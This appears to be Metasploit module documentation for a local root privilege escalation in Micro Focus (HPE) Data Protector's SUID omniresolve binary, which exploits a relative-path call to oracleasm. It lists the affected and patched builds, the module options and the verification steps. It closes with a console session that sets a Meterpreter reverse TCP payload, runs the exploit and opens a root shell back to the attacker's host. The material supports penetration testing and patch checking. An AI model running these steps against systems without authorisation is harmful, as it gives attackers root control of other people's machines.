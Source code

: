 ## Description

  This module exploits the trusted `$PATH` environment
  variable of the SUID binary `omniresolve` in
  Micro Focus (HPE) Data Protector A.10.40 and prior.

  The `omniresolve` executable calls the `oracleasm` binary using
  a relative path and the trusted `$PATH`, which allows an attacker
  to execute a custom binary with `root` privileges.


## Vulnerable Application

  This module has been successfully tested on:

  * HPE Data Protector A.09.07: OMNIRESOLVE, internal build 110
  * Micro Focus Data Protector A.10.40: OMNIRESOLVE, internal build 118 on CentOS Linux release 7.6.1810 (Core)

  The vulnerability has been patched in:
  * Micro Focus Data Protector A.10.40: OMNIRESOLVE, internal build 125


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/omniresolve_suid_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SUID_PATH**

  Path to `omniresolve` executable (default: `/opt/omni/lbin/omniresolve`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenario

### DP 10.40 build 118 on CentOS Linux release 7.6.1810 (Core)

  ```
  msf > use exploit/linux/local/omniresolve_suid_priv_esc
  msf exploit(linux/local/omniresolve_suid_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/omniresolve_suid_priv_esc) > check
  [+] The target is vulnerable.
  msf exploit(linux/local/omniresolve_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf exploit(linux/local/komniresolve_suid_priv_esc) > set lhost 192.168.0.113
  lhost => 192.168.0.113
  msf exploit(linux/local/omniresolve_suid_priv_esc) > run
  
  [*] Started reverse TCP handler on 192.168.0.113:4444 
  [*] Sending stage (3021284 bytes) to 192.168.0.107
  [*] Meterpreter session 2 opened (192.168.0.113:4444 -> 192.168.0.107:54510) at 2019-10-01 13:19:45 -0400
  [+] Deleted /tmp/oracleasm
  [+] Deleted /tmp/gprjmiMGOr
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 192.168.0.107
  OS           : CentOS 7.6.1810 (Linux 3.10.0-957.21.2.el7.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```
